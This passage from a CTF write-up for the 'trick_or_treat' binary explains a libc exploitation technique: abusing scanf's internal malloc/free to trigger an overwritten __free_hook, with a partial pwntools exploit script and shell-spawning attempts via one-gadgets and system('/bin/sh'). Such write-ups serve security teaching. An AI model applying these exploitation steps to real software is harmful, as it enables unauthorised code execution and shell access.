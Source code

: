 Now that it is aligned to libc, we can overwrite stuff in libc! Of course the first thing that comes to mind is to overwrite `__malloc_hook` or `__free_hook` to get a shell, but since the program doesn't call `malloc` or `free` ever again after allocating our first chunk, how does it work?

Well, the trick is in `scanf`. If you pass a very large input into `scanf`, it will internally call both `malloc` and `free` to create a temporary buffer for your input on the heap. Let's start by calculating addresses that we need:
```python
#!/usr/bin/env python2

from pwn import *

elf = ELF('./trick_or_treat')
libc = ELF('./libc.so.6')

p = process('./trick_or_treat')
#p = remote('3.112.41.140', 56746)

context.terminal = ['tmux', 'new-window']

p.recv()

# Get a new mmapped chunk right before libc
# also aligned with libc
p.sendline('10000000')

chunk = int(p.recv().split('\n')[0].split(':')[1], 16)
libc.address = chunk + 0x989ff0 # Found using gdb, always constant
free_hook = libc.symbols['__free_hook']
free_hook_off = (free_hook - chunk) / 8 # offset to __free_hook
system = libc.symbols['system']
```

Next, here is what I tried:

1. I tried overwriting `__malloc_hook` with all the one gadgets, and none of them worked (FAIL).
2. I tried overwriting `__free_hook` with all the one gadgets, and none of them worked (FAIL).
3. Then, I thought of overwriting `__free_hook` with `system`, and then passing `'/bin/sh;'` as the first 8 bytes in our huge `scanf` buffer. That way when `free` is called internally in `scanf`, it will call `system("/bin/sh;blahblahblah...")` giving us a shell, but there was a problem.

The problem is in this line:
```c
for (i = 0; i < 2; ++i)
{
  write(1, "Offset & Value:", 0x10);
  scanf("%lx %lx", &offset, &value); // <- PROBLEM
  chunk[offset] = value;
}
```

The problem is with `%lx`, it means that in our huge `scanf` buffer, we can only pass in hexadecimal characters (`0123456789abcdef`). With that, there is no way to call `/bin/sh`.

I thought for a while on how to bypass this hexadecimal-only filter. I then went through my VM's `/usr/bin` folder and looked for any programs that I can run. I found `c89`, `c99`, `cc`, and `ed`.
